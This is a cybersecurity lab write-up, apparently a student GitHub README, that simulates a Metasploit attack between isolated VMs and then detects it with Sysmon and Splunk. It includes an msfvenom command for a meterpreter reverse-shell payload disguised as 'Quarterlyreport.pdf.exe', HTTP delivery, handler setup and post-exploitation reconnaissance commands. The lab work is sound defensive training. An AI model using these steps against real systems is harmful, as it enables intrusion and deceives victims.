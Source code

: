 Objective

This Splunk Lab project was created to establish a controlled environment for simulating and detecting cyber attacks. The primary focus was to ingest and analyze logs within a SIEM, generating test telemetry to mimic real-world attack scenarios.  
Skills Learned

[Bullet Points - Remove this afterwards]
Log Analysis
Advanced understanding of SIEM concepts and practical application.
Proficiency in analyzing and interpreting network logs.
Ability to generate and recognize attack signatures and patterns.
Enhanced knowledge of network protocols and security vulnerabilities.
Development of critical thinking and problem-solving skills in cybersecurity.
Tools Used
[Bullet Points - Remove this afterwards]

Security Information and Event Management (SIEM) system for log ingestion and analysis.
Network analysis tools (such as Wireshark) for capturing and examining network traffic.
Telemetry generation tools to create realistic network traffic and attack scenarios.
Steps
drag & drop screenshots here or use imgur and reference them using imgsrc

Every screenshot should have some text explaining what the screenshot is about.

Example below.

Spin up TWO VMs, One being Windows and the other being Kali Linux. On both VMs set the network adapter to the Internal Network setting while making both VM IPs static to the same network. This network scheme was selected for security reasons to keep the VMs from being accessible from the open web, while also being able to communicate with each other.
The IP's in this lab are: Windows VM - 192.168.33.2, Kali VM - 192.168.33.3 
For this lab, we will open up the RDP port(3389) and turn off the firewall on our Windows VM.

<img width="583" alt="image" src="https://github.com/user-attachments/assets/5b423ff8-596e-4f76-95a8-854c507c9b36" />

Ref 1: Virtual Box Settings

To set up our blue team environment on our Windows VM, we will be configuring Sysmon on the endpoint to gather event logs and send them directly to our Splunk instance, also installed on our Windows machine.
We did this by allocating a Sysmon config file from Github, copying it to the directory containing the Sysmon application, and running the command ./sysmon64.exe -i sysmonconfig.xml in Powershell.
Installing Sysmon will enhance our ability to capture system events.(Since I don't want to expose these VMs to the open web, I downloaded the config file from my main PC, enabled bidirectional drag and drop on the VM, and copied the file directly into the VM.) 
For Splunk configuration, I installed the Sysmon add-on and created the "endpoint" index. Our Sysmon config file will point to the index we created by its name, allowing Sysmon to send logs to our Splunk instance


<h6>KALI SETUP<h6/>
  
  To create telemetry from our Kali VM to our Windows VM, we are going to use the well-known Metasploit pentesting tool.
We will start by creating the Malware payload with this command: msfvenom -p windows/x64/meterpreter_reverse_tcp lhost-192.168.33.3 -f exe Quarterlyreport.pdf.exe
-p chooses the payload we want to use provided by the Metasploit tool. 
"lhost", determines which IP this reverse shell payload will remote back to when executed.
-f will decide the file name, we will name it Quarterlyreport.pdf.exe to entice the "end user" to click on it.

![Screenshot 2025-03-12 072905](https://github.com/user-attachments/assets/17e8deb8-90ab-4509-b982-a718275314f4)

Now we need to deliver the payload to the end user.
To do so, we will host an HTTP Python server by running the command found below inside the directory where the payload was saved to
python3 -m http.server 9999 
On our Windows machine we will search the IP of our Kali box followed by ":9999" which is the port designated in our Python command 

![executing the file](https://github.com/user-attachments/assets/b5601151-d80e-4cca-9425-6304a0f62d4e)

After searching this, it will take us to the directory in our Kali VM. We will then download and execute the malicious file we created.
We see on our Kali terminal that a GET request was logged
After running "netstat -anob" on the Windows VM we see a network connection established to our Kali box 

ran multi/handler on msf exploit 
Now that we have successfully delivered and installed our malware, it's time to carry out the exploitation phase of our attack.
We do this by opening the msfconsole on our Kali VM and configuring the handler by setting the payload to "windows/x64/meterpreter/reverse_tcp" and setting our local IP and the port we want the exploit to use on the victim machine
After configuring the handler, we insert the exploit into the CLI to initiate the reverse TCP handler
The session has been opened with our victim machine

![Updated handler](https://github.com/user-attachments/assets/1106b392-a05b-4a9f-a284-8d72a3783490)

Now we will run the following commands to open up a shell and create network traffic to analyze in our Splunk instance
shell, netstat, ipconfig, net user, net group

Time to do some threat hunting in our Splunk instance
We will start by searching for our index indicated in our configuration files for Sysmon "endpoint"
I have a suspicion that the 192.168.33.3 IP we are sending traffic to is a threat, let's filter traffic that is being sent to that IP 

![Screenshot 2025-03-10 211850](https://github.com/user-attachments/assets/63eb2f00-f37e-44f8-a4ad-3107ed305bd4)

After analyzing the event, we see that one of the events has a suspicious .exe file with two file extensions in the name
Luckily, we are running Sysmon, which allows the SourceProcessGUID, if we filter by this field, we can display all events related to this suspicious file 

![SIEM SourceProcessGUID](https://github.com/user-attachments/assets/d41747eb-220b-4aaf-a606-6870af1f8ff4)

We queried the SourceProcessGUID and organized the output with the table command to display the Time, ParentImage, Image, and Command Line

![Final SIEM](https://github.com/user-attachments/assets/e96640cd-65a9-40e6-a0a4-0e3663bc74e8)

Upon analysis, we see commands being executed affiliated with an IP that is not the host's, sound the alarms.
In a real life scenario, this endpoint would be immediately quarantined from the rest of the network to mitigate damage from spreading.
The IP would also be blacklisted and the firewall reconfigured to prevent this suspected RAT from accessing the network again.

